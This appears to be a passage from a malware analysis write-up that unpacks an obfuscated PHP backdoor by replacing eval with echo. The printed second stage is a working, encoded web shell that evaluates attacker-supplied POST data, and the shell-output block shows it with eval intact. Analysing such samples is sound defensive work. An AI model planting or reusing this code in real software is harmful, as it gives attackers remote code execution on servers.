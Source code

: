 $order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);

$do_me="";

for($i=0;$i<count($order);$i++)
{
	$do_me=$do_me.$terms[$order[$i]];
}

echo($do_me); # We change eval to echo here.

?>

{% endhighlight %}

{% highlight bash  %}
# php extract.php 
$_= \'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7\';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
# 
{% endhighlight %}

Ok, we see the second stage of the script. Now, let's do the same, change eval with echo.

{% highlight php  %}
<?php

$_= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';

$__= 'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';

$___= "\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";

echo($___($__)); # changed eval with echo

?>